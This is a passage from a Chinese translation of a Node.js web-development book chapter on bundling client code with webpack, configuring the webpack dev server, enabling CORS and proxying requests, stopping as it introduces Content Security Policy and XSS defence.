









# 使用打包和内容安全

现代网络开发需要三个关键组件：后端服务器、客户端应用程序和浏览器。前面的章节已经展示了如何使用 Node.js API 及其附加包来接收和处理 HTTP 请求。现在，我们需要探讨应用程序的服务器端部分如何与其他组件协同工作。

本章涵盖了两个塑造应用程序各部分如何组合在一起的话题。第一个话题是使用**打包器**。应用程序的客户端部分通常由大量文件组成，这些文件被收集在一起并压缩成少量文件以提高效率。这是通过打包器完成的，并且大多数广泛使用的客户端框架，如 Angular 和 React，都提供了使用名为 webpack 的打包器的开发者工具。在本章的第一部分，我解释了 webpack 的工作原理，并描述了它如何与后端服务器集成。*表 7.1*将打包器置于上下文中。

表 7.1：将打包器置于上下文中

| 问题 | 答案 |
| --- | --- |
| 它们是什么？ | 打包器将应用程序客户端部分所需的文件组合并压缩成少量文件。 |
| 为什么它们有用？ | 打包器减少了浏览器需要发出的 HTTP 请求次数以获取客户端文件，并减少了需要传输的总数据量。 |
| 如何使用它们？ | 打包器可以独立使用或集成到服务器端构建工具中。 |
| 有没有陷阱或限制？ | 打包器通常集成到更复杂的客户端开发工具中，并且不能总是直接配置，这可能会限制与后端服务器集成的选项。 |
| 有没有替代方案？ | 打包器不是必需的，但通常是由客户端框架的构建工具选择驱动的采用。 |

本章的第二个话题是使用**内容安全策略**（**CSP**）。浏览器是网络应用程序的积极参与者，CSP 允许浏览器阻止客户端 JavaScript 代码执行意外的操作。内容安全策略是防止**跨站脚本攻击**（**XSS**）的重要防御手段，在这种攻击中，攻击者会篡改应用程序以执行 JavaScript 代码。

在本章中，我故意在示例应用程序中创建了一个 XSS 漏洞，演示了如何利用它，然后使用内容安全浏览器为浏览器提供所需信息，以阻止应用程序被滥用。*表 7.2*将内容安全策略置于上下文中。

表 7.2：将内容安全策略置于上下文中

| 问题 | 答案 |
| --- | --- |
| 它们是什么？ | 内容安全策略描述了客户端代码对浏览器的预期行为。 |
| 为什么它们有用？ | 浏览器阻止 JavaScript 代码执行与内容安全策略定义不符的操作。 |
| 它们是如何使用的？ | 后端服务器在 HTTP 响应中包含一个 `Content-Security-Policy` 头部。该头部指定了描述客户端代码预期行为的指令。 |
| 有没有陷阱或限制？ | 它可能需要仔细测试才能定义一个允许客户端代码正常工作而不创建 XSS 攻击机会的内容安全策略。因此，内容安全策略必须与其他措施一起使用，例如输入清理，如本书 *第二部分* 中所述。 |
| 有没有替代方案？ | 内容安全策略是可选的，但提供了防止应用程序客户端部分被篡改的重要防御措施，应在可能的情况下使用。 |

*表 7.3* 总结了本章内容。

表 7.3：本章摘要

| 问题 | 解决方案 | 列表 |
| --- | --- | --- |
| 将客户端文件合并以最小化 HTTP 请求 | 使用如 webpack 这样的 JavaScript 捆绑器。 | *6-10* |
| 当创建新捆绑时自动重新加载浏览器 | 使用 webpack 开发 HTTP 服务器。 | *11-14* |
| 从捆绑的客户端代码接收后端服务器请求 | 在后端服务器上使用单独的 URL 并启用 CORS，或者在两个服务器之间代理请求。 | *15-22* |
| 防御跨站脚本攻击 | 定义并应用内容安全策略。 | *23-33* |
| 简化定义内容安全策略的过程 | 使用如 Helmet 这样的 JavaScript 包。 | *34-36* |

# 准备本章

在本章中，我将继续使用 *第六章* 中的 `webapp` 项目。为了准备本章，将 `readHandler.ts` 文件的内容替换为 *列表 7.1* 中显示的代码。

**提示**

您可以从 [`github.com/PacktPublishing/Mastering-Node.js-Web-Development`](https://github.com/PacktPublishing/Mastering-Node.js-Web-Development) 下载本章的示例项目——以及本书中所有其他章节的示例项目。有关运行示例时遇到问题的帮助，请参阅 *第一章*。

列表 7.1：src 文件夹中 readHandler.ts 文件的内容

```js
import { Request, Response } from "express";
export const readHandler = (req: Request, resp: Response) => {   
    resp.json({
        message: "Hello, World"
    });
} 
```

此处理器对所有消息的响应都包含一个包含 JSON 格式对象的响应。将 `src` 文件夹中 `server.ts` 文件的内容替换为 *列表 7.2* 中显示的代码。

列表 7.2：src 文件夹中 server.ts 文件的内容

```js
import { createServer } from "http";
import express, {Express } from "express";
import { readHandler } from "./readHandler";
const port = 5000;
const expressApp: Express = express();
expressApp.use(express.json());
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
const server = createServer(expressApp);
server.listen(port,
    () => console.log(`HTTP Server listening on port ${port}`)); 
```

此代码移除了之前示例中使用的某些处理器，并使用 Express 来提供静态内容，并将 `/read` 路径的 POST 请求匹配到 *列表 7.1* 中定义的处理程序。

接下来，将 `static` 文件夹中 `index.html` 文件的内容替换为 *列表 7.3* 中显示的元素，这将移除上一章中使用的图像，并将 Bootstrap CSS 包提供的样式应用到显示服务器响应的表格上。

列表 7.3：静态文件夹中 index.html 文件的内容

```js
<!DOCTYPE html>
<html>
    <head>
        <script src="img/client.js"></script>
        <link href="css/bootstrap.min.css" rel="stylesheet" />
    </head>
    <body>
       <button id="btn" class="btn btn-primary m-2">Send Request</button>
       <table class="table table-striped">
            <tbody>
                <tr><th>Status</th><td id="msg"></td></tr>
                <tr><th>Response</th><td id="body"></td></tr>
            </tbody>
       </table>
    </body>
</html> 
```

在 `webapp` 文件夹中运行 *列表 7.4* 中显示的命令以启动编译 TypeScript 文件并执行生成的 JavaScript 的监视器。

列表 7.4：启动项目

```js
npm start 
```

打开一个网络浏览器并请求 `http://localhost:5000`。点击 **发送请求** 按钮，你将看到 *图 7.1* 中显示的结果。


图 7.1：运行示例项目

# 打包客户端文件

Web 应用的客户端通常由浏览器执行，应用程序以 HTML 文件的形式交付，该文件反过来告诉浏览器请求 JavaScript 文件、CSS 样式表以及任何其他所需资源。

可能会有许多 JavaScript 和 CSS 文件，这意味着浏览器需要为许多文件发出 HTTP 请求。这些文件往往很冗长，因为它们被格式化为供开发团队阅读和维护，其中包含空格和注释，这些注释对于运行应用程序不是必需的。

许多项目使用打包器，它处理客户端资源以减小它们的大小并将它们合并成更少的文件。最受欢迎的打包器是 webpack ([`webpack.js.org`](https://webpack.js.org))，它可以单独使用，也可以作为 React 和 Angular 等框架的标准开发者工具的一部分。与其他 JavaScript 功能领域一样，还有其他打包器可用，但鉴于其流行度和持久性，webpack 是一个很好的起点。

打包器可以通过将客户端对资源的请求集中到更少的请求和更小的文件中，帮助项目的服务器端。然而，打包器通常需要与项目集成，以便客户端和服务器端开发可以轻松结合。

在接下来的章节中，我将描述不同的使用打包器的方式，并解释它们对服务器端开发的影响。在 `webapp` 文件夹中运行 *列表 7.5* 中显示的命令来安装 `webpack` 包。此命令还安装了 `npm-run-all` 包，它允许同时运行多个 NPM 脚本。

列表 7.5：安装打包器包

```js
npm install --save-dev webpack@5.89.0
npm install --save-dev webpack-cli@5.1.4
npm install --save-dev npm-run-all@4.1.5 
```

## 创建独立包

使用打包器的最简单方法是将它作为一个独立的工具。要配置 `webpack`，将一个名为 `webpack.config.mjs` 的文件添加到 `webapp` 文件夹中，其内容如 *列表 7.6* 所示。webpack 使用 JavaScript 而不是 JSON 配置文件，`mjs` 文件扩展名指定了一个 JavaScript 模块，这允许使用本书中使用的相同 `import` 语法。

列表 7.6：webapp 文件夹中 webpack.config.mjs 文件的内容

```js
import path from "path";
import { fileURLToPath } from 'url';
const __dirname = path.dirname(fileURLToPath(import.meta.url));
export default  {
    mode: "development",
    entry: "./static/client.js",
    output: {
        path: path.resolve(__dirname, "dist/client"),
        filename: "bundle.js"
    }
}; 
```

此基本配置文件告诉`webpack`处理`static`文件夹中的`client.js`文件，并将创建的打包写入`dist/client`文件夹中名为`bundle.js`的文件。示例项目中客户端 JavaScript 代码不足以让 webpack 有太多工作可做，但在实际项目中，webpack 将遵循起始 JavaScript 文件中做出的所有导入，并将应用程序所需的所有代码合并到打包中。*列表 7.7*更新了`index.html`文件，使其使用 webpack 将创建的`bundle.js`文件。

列表 7.7：在静态文件夹中的 index.html 文件中使用 bundle 文件

```js
<!DOCTYPE html>
<html>
    <head>
        **<script src="img/bundle.js"></script>**
        <link href="css/bootstrap.min.css" rel="stylesheet" />
    </head>
    <body>
       <button id="btn" class="btn btn-primary m-2">Send Request</button>
       <table class="table table-striped">
            <tbody>
                <tr><th>Status</th><td id="msg"></td></tr>
                <tr><th>Response</th><td id="body"></td></tr>
            </tbody>
       </table>
    </body>
</html> 
```

为了允许客户端请求`bundle.js`文件，*列表 7.8*使用 Express 静态文件中间件为文件请求添加了一个新位置。

列表 7.8：在 src 文件夹中的 server.ts 文件中添加文件位置

```js
...
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
**expressApp.use(express.static("****dist/client"));**
... 
```

最后一步是更新`package.json`文件中的`scripts`部分，以便 webpack 在服务器端 JavaScript 文件现有的构建过程旁边以监视模式运行，如*列表 7.9*所示。

列表 7.9：更新 webapp 文件夹中的 package.json 文件中的脚本

```js
...
"scripts": {
 **"server": "tsc-watch --onsuccess \"node dist/server.js\"",**
 **"client"****: "webpack --watch",**
 **"start": "npm-run-all --parallel server client"**
},
... 
```

新的`start`命令使用`npm-run-all`包来启动`client`和`server`命令，这些命令并行运行 webpack 客户端打包器和服务器端 TypeScript 编译器。将 webpack 置于监视模式意味着当客户端 JavaScript 文件被修改时，打包将自动更新。

停止现有的 Node.js 服务器，并在`webapp`文件夹中运行`npm start`命令。*列表 7.10*对客户端代码进行小修改，以演示 webpack 更改检测。

列表 7.10：在静态文件夹中的 client.js 文件中进行小修改

```js
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("btn").addEventListener("click", sendReq);
});
sendReq = async () => {
    let payload = [];
    for (let i = 0; i < 5; i++) {
        payload.push({ id: i, message: `Payload Message: ${i}\n`});
    }
    const response = await fetch("/read", {
        method: "POST", body: JSON.stringify(payload),
        headers: {
            "Content-Type": "application/json"
        }
    })
    document.getElementById("msg").textContent = response.statusText;
  **document.getElementById("body").textContent**
 **= `Resp: ${await response.text()}`;**
} 
```

当`client.js`文件被保存时，webpack 将检测到更改，将创建一个新的打包文件，产生如下控制台消息：

```js
assets by status 1.86 KiB [cached] 1 asset
./static/client.js 631 bytes [built]
webpack 5.89.0 compiled successfully in 13 ms 
```

重新加载浏览器 - 或者打开一个新的浏览器并请求`http://localhost:5000` - 然后点击发送请求按钮，你将在响应显示时看到更改的效果，如*图 7.2*所示。



图 7.2：使用客户端打包器

## 使用 webpack 开发服务器

webpack 提供了一个 HTTP 服务器，它简化了客户端开发过程，这被广泛用作 Angular、React 和其他流行框架的流行开发包的基础。如果你的项目客户端部分依赖于这些框架之一，那么你很可能会发现自己在使用 webpack 开发服务器。

webpack 开发服务器可以与传统的服务器端功能一起用于客户端开发，尽管需要一些集成。在`webapp`文件夹中运行*列表 7.11*中显示的命令来安装 webpack 开发 HTTP 服务器。

列表 7.11：添加开发服务器包

```js
npm install --save-dev webpack-dev-server@4.15.1 
```

webpack 开发 web 服务器有许多配置选项，这些选项在 [`webpack.js.org/configuration/dev-server`](https://webpack.js.org/configuration/dev-server) 上有详细描述，但默认设置选择得很好，适用于大多数项目。*列表 7.12* 为开发服务器添加了 webpack 配置文件中的一个部分。

列表 7.12：在 webapp 文件夹中的 webpack.config.mjs 文件中添加一个部分

```js
import path from "path";
import { fileURLToPath } from 'url';
const __dirname = path.dirname(fileURLToPath(import.meta.url));
export default  {
    mode: "development",
    entry: "./static/client.js",
    output: {
        path: path.resolve(__dirname, "dist/client"),
        filename: "bundle.js"
 **},**
 **"devServer": {**
 **port: 5100,**
 **static: ["./static", "node_modules/bootstrap/dist"]**
 **}**
}; 
```

`devServer` 配置部分包含 HTTP 服务器的设置。webpack 服务器监听由 `port` 设置指定的端口上的 HTTP 请求，并使用由 `static` 设置指定的目录中的文件进行响应。关键区别在于发送到浏览器的 JavaScript 包包含额外的代码，该代码打开一个持久性的 HTTP 连接到开发服务器并等待信号。当 webpack 检测到它正在监视的文件之一已更改时，它会构建一个新的包并将它等待的信号发送给浏览器，该信号动态加载更改的内容。这被称为 *实时重新加载*。

**提示**

有一个更高级的选项可用，称为 *热模块替换*，它将尝试更新单个 JavaScript 模块，而不会影响其他代码或强制浏览器重新加载。有关详细信息，请参阅 [`webpack.js.org/guides/hot-module-replacement`](https://webpack.js.org/guides/hot-module-replacement)。

*列表 7.13* 将脚本更改为使用 webpack 开发 HTTP 服务器而不是监视模式。（向 `tsc-watch` 命令添加 `noClear` 参数可以防止在服务器端代码编译时丢失 webpack 开发服务器的输出）。

列表 7.13：更新 webapp 文件夹中 package.json 文件中的 webpack 脚本

```js
...
"scripts": {
   ** "server": "tsc-watch --noClear --onsuccess \"node dist/server.js\"",**
 **"client": "webpack serve",**
    "start": "npm-run-all --parallel server client"
},
... 
```

停止上一节中的 node 进程，并在 `webapp` 文件夹中运行 `npm start`，以便新配置生效。

你可以通过使用浏览器请求 `http://localhost:5100`（注意新的端口号）并使用你的代码编辑器更改 `index.html` 文件，如图 *列表 7.14* 所示，来查看 webpack 开发服务器的影响。

列表 7.14：更改 static 文件夹中 index.html 文件中的一个元素

```js
<!DOCTYPE html>
<html>
    <head>
        <script src="img/bundle.js"></script>
        <link href="css/bootstrap.min.css" rel="stylesheet" />
    </head>
    <body>
       **<button id="****btn" class="btn btn-primary m-2">Send Message</button>**
       <table class="table table-striped">
            <tbody>
                <tr><th>Status</th><td id="msg"></td></tr>
                <tr><th>Response</th><td id="body"></td></tr>
            </tbody>
       </table>
    </body>
</html> 
```

此文件不是包的一部分，但 webpack 会监视其配置文件中 `static` 位置的文件，并在它们更改时触发更新。当你保存文件时，浏览器将自动重新加载，按钮上的新文本将显示出来，如图 *图 7.3* 所示。



图 7.3：webpack 开发服务器的自动更新

仅为了服务客户端代码而引入服务器会导致问题，因为 webpack 服务器没有方法来响应它捆绑的客户端 JavaScript 代码发出的 HTTP 请求。您可以通过点击**发送消息**按钮来看到这个问题。请求将失败，webpack 服务器生成的响应详情将显示，如*图 7.4*所示。



图 7.4：发送 HTTP 请求

在接下来的章节中，我描述了三种不同的解决这个问题的方法。并非所有方法都适用于每个项目，因为客户端框架并不总是允许更改底层 webpack 配置，或者它们为请求处理引入了特定的要求。但所有框架都可以至少使用这些方法中的一种，并且值得尝试找到一种既有效又适合您开发风格的方法。

### 使用不同的请求 URL

最简单的方法是更改客户端 JavaScript 代码发送请求的 URL，如*列表 7.15*所示。当你无法修改 webpack 配置文件时，这是一个有用的方法，通常是因为它隐藏在框架特定的构建工具深处。

列表 7.15：在静态文件夹中的 client.js 文件中更改 URL

```js
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("btn").addEventListener("click", sendReq);
});
**const requestUrl = "http://localhost:5000/read";**
sendReq = async () => {
    let payload = [];
    for (let i = 0; i < 5; i++) {
        payload.push({ id: i, message: `Payload Message: ${i}\n`});
    }
 **   const response = await fetch(requestUrl, {**
        method: "POST", body: JSON.stringify(payload),
        headers: {
            "Content-Type": "application/json"
        }
    })
    document.getElementById("msg").textContent = response.statusText;
    document.getElementById("body").textContent
        = `Resp: ${await response.text()}`;
} 
```

这种方法简单有效，但确实需要修改应用程序的服务器端部分。浏览器允许 JavaScript 代码仅在相同的*源*内进行 HTTP 请求，这意味着与加载 JavaScript 代码的 URL 具有相同方案、主机和端口的 URL。*列表 7.15*中的更改意味着 HTTP 请求是到允许源之外的 URL，因此浏览器阻止了请求。解决这个问题的方法是使用**跨源资源共享**（**CORS**），在这种情况下，浏览器向目标 HTTP 服务器发送一个额外的请求，以确定它是否愿意接受来自 JavaScript 代码源的 HTTP 请求。

保存*列表 7.15*中的更改，打开浏览器 F12 开发者工具，并在浏览器窗口中点击**发送消息**按钮。忽略主浏览器窗口中显示的消息，并使用 F12 工具的**网络**选项卡查看浏览器已发出的请求。您将看到一个使用 HTTP `OPTIONS`方法的请求，这被称为*预检请求*，如*图 7.5*所示，它允许后端服务器表明它是否将接受请求。



图 7.5：预检请求

后端服务器的响应没有包含`Access-Control-Allow-Origin`头，这将表明允许跨源请求，因此浏览器阻止了 POST 请求。

CORS 的详细信息请参阅 [`developer.mozilla.org/en-US/docs/Web/HTTP/CORS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)，您可以使用 *第五章* 中描述的 Node.js API 来设置允许客户端请求所需的头部信息。一种更简单的方法是使用许多可用的 JavaScript 包来管理 CORS。在 `webapp` 文件夹中运行 *列表 7.16* 中显示的命令来安装用于 Express 的 CORS 包以及描述 TypeScript 编译器提供的 API 的包。

*列表 7.16*：安装 CORS 包和类型描述

```js
npm install cors@2.8.5
npm install --save-dev @types/cors@2.8.16 
```

*列表 7.17* 配置 Express 使用新包来允许跨源请求。

*列表 7.17*：在 src 文件夹中的 server.Ts 文件中允许跨源请求

```js
import { createServer } from "http";
import express, {Express } from "express";
import { readHandler } from "./readHandler";
**import cors from "cors";**
const port = 5000;
const expressApp: Express = express();
**expressApp.use(cors({**
 **origin: "http://localhost:5100"**
**}));**
expressApp.use(express.json());
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
expressApp.use(express.static("dist/client"));
const server = createServer(expressApp);
server.listen(port,
    () => console.log(`HTTP Server listening on port ${port}`)); 
```

CORS 包包含一个用于 Express 的中间件包，该包通过 `use` 方法应用。完整的 CORS 配置选项可以在 [`github.com/expressjs/cors`](https://github.com/expressjs/cors) 找到，*列表 7.17* 使用 `origin` 配置设置指定允许从 `http://localhost:5100` 发送请求，这将允许从 webpack 开发服务器加载的 JavaScript 代码发送请求。

关闭浏览器窗口中显示的错误消息（您可以点击交叉图标或重新加载浏览器），然后再次点击“发送消息”按钮。这次，后端服务器将使用浏览器期望的头部信息响应 OPTIONS 请求，并允许 HTTP POST 请求。*F12* 工具将显示成功请求的详细信息，如图 *图 7.6* 所示。



图 7.6：使用 CORS 允许跨源请求

### 从 webpack 转发请求到后端服务器

一个更复杂的解决方案是配置 webpack 开发服务器，使其将请求转发到后端服务器。请求转发对浏览器来说是不明显的，这意味着所有请求都发送到相同的源，因此不需要 CORS。*列表 7.18* 更新了 webpack 配置文件以添加对请求转发的支持。

*列表 7.18*：在 webapp 文件夹中的 webpack.config.mjs 文件中添加设置

```js
import path from "path";
import { fileURLToPath } from 'url';
const __dirname = path.dirname(fileURLToPath(import.meta.url));
export default  {
    mode: "development",
    entry: "./static/client.js",
    output: {
        path: path.resolve(__dirname, "dist/client"),
        filename: "bundle.js"
    },
    "devServer": {
        port: 5100,
        static: ["./static", "node_modules/bootstrap/dist"],
        **proxy: {**
 **"/read": "http://localhost:5000"**
 **}**
    }
}; 
```

使用 `proxy` 设置来指定一个或多个路径以及它们应转发到的 URL。*列表 7.19* 更新客户端 JavaScript 代码，以便请求相对于 JavaScript 文件的源发送。

*列表 7.19*：在 static 文件夹中的 client.js 文件中使用相对 URL

```js
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("btn").addEventListener("click", sendReq);
});
**const requestUrl = "/read";**
sendReq = async () => {
    let payload = [];
    for (let i = 0; i < 5; i++) {
        payload.push({ id: i, message: `Payload Message: ${i}\n`});
    }
    const response = await fetch(requestUrl, {
        method: "POST", body: JSON.stringify(payload),
        headers: {
            "Content-Type": "application/json"
        }
    })
    document.getElementById("msg").textContent = response.statusText;
    document.getElementById("body").textContent
        = `Resp: ${await response.text()}`;
} 
```

webpack 不会自动检测其配置文件的更改。使用 *Control+C* 停止现有进程，然后在 `webapp` 文件夹中运行 `npm start` 命令再次启动 `webpack` 和后端服务器。使用浏览器请求 `http://localhost:5100`（webpack 服务器的 URL），然后点击 **发送消息** 按钮。webpack 服务器将接收请求并作为代理从后端服务器获取响应，生成如图 *图 7.7* 所示的响应。



图 7.7：使用 webpack 作为后端服务器的代理

**提示**

在幕后，webpack HTTP 服务器使用 Express，核心开发服务器功能包含在 `webpack-dev-middleware` 包中，该包可以用作任何也使用 Express 的项目的中间件。我没有演示此功能，因为它需要额外的包和广泛的配置更改来重新创建像实时重新加载这样的功能，而这些功能在使用标准的 webpack 开发服务器包时已经设置好了。

有关将 webpack 作为 Express 中间件使用的详细信息，请参阅 [`webpack.js.org/guides/development/#using-webpack-dev-middleware`](https://webpack.js.org/guides/development/#using-webpack-dev-middleware)。

### 将请求从后端服务器转发到 webpack

第三种方法是调整服务器，使后端服务器将请求转发到 webpack 服务器。这种方法的优势在于使开发环境与生产环境更加一致，并确保后端服务器设置的头部得到应用。在 `webapp` 文件夹中运行 *列表 7.20* 中显示的命令以安装 Express 的代理包及其为 TypeScript 编译器提供的 API 描述。

列表 7.20：安装代理包

```js
npm install http-proxy@1.18.1 
```

*列表 7.21* 修改了 Express 配置，以便将请求转发到 webpack 服务器。

列表 7.21：在 src 文件夹中的 server.ts 文件中转发请求

```js
import { createServer } from "http";
import express, {Express } from "express";
import { readHandler } from "./readHandler";
import cors from "cors";
**import httpProxy from "http-proxy";**
const port = 5000;
const expressApp: Express = express();
**const proxy = httpProxy.createProxyServer({**
 **target: "http://localhost:5100", ws: true**
**});**
expressApp.use(cors({
    origin: "http://localhost:5100"
}));
expressApp.use(express.json());
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
**//expressApp.use(express.static("dist/client"));**
**expressApp.use((req, resp) => proxy.web(req, resp));**
const server = createServer(expressApp);
**server.on('upgrade', (req, socket, head) => proxy.ws(req, socket, head));**
server.listen(port,
    () => console.log(`HTTP Server listening on port ${port}`)); 
```

这些更改启用了代理，包括处理用于实时重新加载功能的 WebSocket 请求的支持，这些请求也必须转发到 webpack 开发服务器。需要在 webpack 配置文件中进行相应的更新，以指定客户端实时重新加载代码将连接到的 URL，如图 *7.22* 所示。

列表 7.22：在 webpack.config.mjs 文件中更改客户端 URL

```js
import path from "path";
import { fileURLToPath } from 'url';
const __dirname = path.dirname(fileURLToPath(import.meta.url));
export default  {
    mode: "development",
    entry: "./static/client.js",
    output: {
        path: path.resolve(__dirname, "dist/client"),
        filename: "bundle.js"
    },
    "devServer": {
        port: 5100,
        static: ["./static", "node_modules/bootstrap/dist"],
        **// proxy: {**
 **//     "/read": "http://localhost:5000"**
 **// },**
 **client: {**
 **webSocketURL****: "http://localhost:5000/ws"**
 **}**
    }
}; 
```

使用 *Control+C* 停止现有的构建过程，并在 `webapp` 文件夹中运行 `npm start` 以使更改生效。使用浏览器请求 `http://localhost:5000`，如图 *7.8* 所示，以便后端服务器接收请求并仍然受益于 webpack 开发服务器的功能。



图 7.8：使用后端服务器作为 webpack 的代理

# 使用内容安全策略

CORS 是一组请求头部的示例，它通过向浏览器提供有关应用程序预期如何工作的信息来应对恶意行为。

后端服务器可以设置额外的头信息，以便向浏览器提供有关应用程序如何工作以及预期行为的信息。最重要的头信息是 `Content-Security-Policy`，后端服务器使用它来描述应用程序的 **内容安全策略**（**CSP**）。CSP 告诉浏览器从客户端应用程序期望的行为，以便浏览器可以阻止可疑活动。

内容安全策略的使用旨在防止 **跨站脚本**（**XSS**）攻击。XSS 攻击有很多变体，但它们都涉及将恶意内容或代码注入到浏览器显示的内容中，以执行应用程序开发者未打算执行的任务——通常是欺骗用户或窃取敏感数据。

XSS 攻击的一个常见原因是当应用程序接受来自一个用户的输入，随后将其整合到展示给其他用户的内 容中。例如，如果一个应用程序接受显示在产品旁边的用户评论，攻击者可以构建一个评论，当产品页面显示时，浏览器将其解释为 HTML 或 JavaScript 内容。

最佳的起点是演示问题，这需要对示例应用程序进行一些更改。第一个更改是在浏览器显示的 HTML 文档中添加一个 `input` 元素，这将允许用户输入数据，该数据稍后将被浏览器显示，如 *列表 7.23* 所示。

列表 7.23：在静态文件夹中的 index.html 文件中添加一个输入元素

```js
<!DOCTYPE html>
<html>
    <head>
        <script src="img/bundle.js"></script>
        <link href="css/bootstrap.min.css" rel="stylesheet" />
    </head>
    <body>
